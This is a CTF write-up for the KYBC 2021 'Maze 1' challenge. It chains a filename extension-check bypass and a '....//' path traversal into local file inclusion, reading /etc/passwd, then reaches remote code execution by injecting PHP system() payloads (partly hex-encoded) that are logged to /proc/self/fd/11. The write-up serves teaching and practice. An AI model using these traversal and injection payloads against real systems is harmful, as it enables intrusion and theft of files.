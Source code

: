 Title: KYBC 2021 - Maze 1 Writeup
Date: 2021-03-17
Tags: ctf, lfi, rce, kybc
Slug: kybc-yogosha-2021-maze-1-writeups
Summary: Writeup for Maze 1 challenge at KYBC CTF


The site is basically a search box that checks for matching txt files and then redirects to `http://5.150.254.85:8082/lookup.php?f=file.txt` to display the content of the file. `flag.txt` obviously leads to a fake flag, but the whole thing looks like a potential LFI.

Trying to reach a file with an extension other than `.txt` results in an error. However, appending an extra `f` parameters after one with the `.txt` extension lets me bypass the extension check and access the content of the last file.

The txt files are inside a `files/` folder and there seem to be some sort of sanitization mechanism, since `../` get stripped away. However, the filter applies only to that specific pattern, so `....//` becomes `../` after sanitation and allows me to look up into the parent folder.

Combining the two bypasses together gets me the `etc/passwd` file:

```
http://5.150.254.85:8082/lookup.php?f=flag.txt&f=....//....//....//....//etc/passwd`
```

The flag doesn't seem to be there though.

Let's see if it is possible to turn this LFI into an RCE, since trying to guess name and location of the flag doesn't sound like a realistic strategy.

By examining the `proc/self/fd` folder I discover that `proc/self/fd/11` stores the serialized parameters of the search request. Let's see if we can write by making a POST request containing `<?php system('id'); ?>`

```
http://5.150.254.85:8082/search=%3C%3Fphp+system%28%27id%27%29%3B+%3F%3E&submit=submit
```
and check the proc file again

```
http://5.150.254.85:8082/lookup.php?f=flag.txt&f=....//....//....//....//proc/self/fd/11
```

Yeah! The code gets executed and the result gets saved into it!!

Let's run `ls /`
```
http://5.150.254.85:8082/search=%3C%3Fphp%20system%28%27ls%20-al%27%29%3B%20%3F%3E&submit=submit

```
and check the outcome in the proc file. No flag in the root folder, but `home/ctf_user1` seems interesting:
```
http://5.150.254.85:8082/search=%3c%3f%70%68%70%20%73%79%73%74%65%6d%28%27%6c%73%20%2d%61%6c%20%2f%68%6f%6d%65%2f%63%74%66%5f%75%73%65%72%31%27%29%3b%20%3f%3e&submit=submit
```

there's the flag - let's cat it!

```
http://5.150.254.85:8082/search=%3c%3f%70%68%70%20%73%79%73%74%65%6d%28%27%63%61%74%20%2f%68%6f%6d%65%2f%63%74%66%5f%75%73%65%72%31%2f%2e%33%33%36%64%35%65%62%63%35%34%33%36%35%33%34%65%36%31%64%31%36%65%36%33%64%64%66%63%61%33%32%37%5f%66%6c%61%67%31%2e%74%78%74%27%29%3b%20%3f%3e&submit=submit
```

Success! `FLAG_c4a66ead822b8d2dd42da826eb180371`
